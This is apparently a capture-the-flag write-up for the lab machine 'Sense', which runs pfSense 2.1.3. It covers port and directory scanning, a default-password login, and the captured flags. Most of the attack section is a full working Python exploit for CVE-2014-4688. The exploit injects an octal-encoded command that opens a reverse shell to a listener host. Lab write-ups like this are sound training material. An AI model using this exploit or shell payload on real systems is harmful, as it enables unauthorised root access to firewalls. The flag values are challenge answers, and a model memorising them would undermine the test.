


# Sense

Difficulty: Easy
End Date: June 7, 2023
OS: BSD
Points: 20
Start Date: June 7, 2023
Status: Done
Tags: CVE-2014-4688, pfsense
root.txt: d08c32a5d4f8c8b10e76eb51a69f1a86
user.txt: 8721327cc232073b40d27d9c17e7348b

## Overview

This was a fairly easy box which needs more enumeration to find the secret file in the initial stage. After that all became very simple and starightforward.



**Name -** Sense

**Difficulty -** Easy

**OS -** OpenBSD

**Points -** 20

## Information Gathering

### **Port Scan**

Basic Scan

```bash
╰─ nmap 10.129.203.88
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 01:31 +06
Nmap scan report for 10.129.203.88
Host is up (0.073s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 21.27 seconds
```

Version Scan

```bash
╭╴root @ …/Users/SiliconBits/Downloads via C v12.2.0-gcc via ☕ v17.0.6 via  v3.11.2 took 21s
╰─ nmap -sC -sV -p80,443  10.129.203.88
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 01:34 +06
Nmap scan report for 10.129.203.88
Host is up (0.064s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.203.88/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.92 seconds
```

### **HTTP Enumeration**

Visiting the website gives us the following



The gobuster reveals the following

```bash
╭╴root @ …/Users/SiliconBits/Downloads via C v12.2.0-gcc via ☕ v17.0.6 via  v3.11.2 took 5m53s
╰─ gobuster dir -u https://10.129.203.88 -w /mnt/d/tools/SecLists-master/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x ".txt,.php" -k -t 150 --delay 2000ms --random-agent
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.203.88
[+] Method:                  GET
[+] Threads:                 150
[+] Delay:                   2s
[+] Wordlist:                /mnt/d/tools/SecLists-master/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/5.0 (X11; U; Linux i686; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.213.0 Safari/532.1
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/06/07 02:55:48 Starting gobuster in directory enumeration mode
===============================================================
/help.php             (Status: 200) [Size: 6689]
/index.php            (Status: 200) [Size: 6690]
/themes               (Status: 301) [Size: 0] [--> https://10.129.203.88/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.129.203.88/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.129.203.88/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.129.203.88/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.129.203.88/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.129.203.88/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.129.203.88/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.203.88/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.129.203.88/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.129.203.88/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/reboot.php           (Status: 200) [Size: 6691]
Progress: 103621 / 622932 (16.63%)[ERROR] 2023/06/07 03:22:43 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/interfaces.php       (Status: 200) [Size: 6695]
/csrf (Status: 301)   (Status: 301) [Size: 0] [--> https://10.129.203.88/csrf/]
/system-users.txt (Status: 200)
```

The file /system-users.txt contains sensitive information


The default password is pfsense. So creds will be - **rohit:pfsense.**


We got in. And we can see the pfsense version is 2.1.3. And after some research, I came up with an exploit. ([CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)).

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password

# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
```

Running the exploit, I was able to get a shell as root.


## Getting User.txt

I collected the user flag from rohit’s home directory


User flag - 8721327cc232073b40d27d9c17e7348b

## Getting root.txt

Here is the /opt/cleanup.sh file


Root flag - d08c32a5d4f8c8b10e76eb51a69f1a86

## Flags

**user.txt -** 8721327cc232073b40d27d9c17e7348b

**root.txt -** d08c32a5d4f8c8b10e76eb51a69f1a86
